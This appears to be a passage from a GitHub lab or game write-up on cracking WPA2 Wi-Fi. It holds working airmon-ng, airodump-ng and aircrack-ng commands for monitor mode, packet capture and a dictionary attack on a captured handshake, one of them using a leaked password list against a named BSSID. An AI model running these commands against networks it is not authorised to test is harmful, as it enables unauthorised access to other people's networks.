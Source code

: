 
# Stop monitor mode on interface:
```
sudo airmon-ng stop wlp1s0mon
```
# Start Network Manager so you can get back online:
```
sudo service network-manager start
```
# Use aircrack and passwordlist of your choice:
### sudo aircrack-ng -w [Password list] [Name of CAP file] 
```
sudo aircrack-ng -w ~/github/ChickenManGame/ChickenDay/passwords/darkweb2017-top10000.txt New-01.cap 
```
### sudo aircrack-ng -a2 specifies WPA2, -b is the bssid, -w is the wordfile
```
sudo aircrack-ng -a2 -b 60:38:E0:D3:AC:45 -w ~/passwords2.txt New-01.cap 
sudo aircrack-ng -a2 -w ~/new-list2.txt New-01.cap 
```



# Packet monitoring and injection mode
Once we started KALI on VituralBox, the first thing we did was to map the 2200mW NextG USB-Yagi TurboTenna as the USB Device by selecting "Ralink 802.11 n WLAN [0101]"
On the command line terminal, we entered the commands below.
Check the presence of the 2200mW NextG USB-Yagi TurboTenna (wlan0):
```
ifconfig -a
```
Packet monitoring and injection commands:
```
airmon-ng check kill

airmon-ng check

airmon-ng start wlan0

airodump-ng wlan0mon
```


# Brute-Force Dictionary Attack

Next we moved on to the Brute-Force toolkit.
